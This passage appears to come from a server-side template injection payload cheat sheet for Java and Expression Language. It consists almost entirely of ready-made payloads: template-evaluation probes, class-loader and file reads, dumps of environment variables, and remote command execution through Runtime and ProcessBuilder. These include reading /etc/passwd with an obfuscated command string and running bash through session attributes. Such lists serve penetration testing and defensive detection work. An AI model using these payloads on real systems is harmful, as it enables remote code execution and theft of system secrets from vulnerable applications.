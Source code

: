 [](#java)

Java

[](#java---basic-injection)

Java - Basic injection

    ${7*7}
    ${{7*7}}
    ${class.getClassLoader()}
    ${class.getResource("").getPath()}
    ${class.getResource("../../../../../index.htm").getContent()}

[](#java---retrieve-the-systems-environment-variables)

Java - Retrieve the system’s environment variables

    ${T(java.lang.System).getenv()}

[](#java---retrieve-etcpasswd)

Java - Retrieve /etc/passwd

    ${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

    ${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}

[](#expression-language-el)

Expression Language EL

[](#expression-language-el---basic-injection)

Expression Language EL - Basic injection

    ${1+1} 
    #{1+1}

[](#expression-language-el---code-execution)

Expression Language EL - Code Execution

    // Common RCE payloads
    ''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
    ''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()

    // Method using Runtime
    #{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
    #{session.getAttribute("rtc").setAccessible(true)}
    #{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}
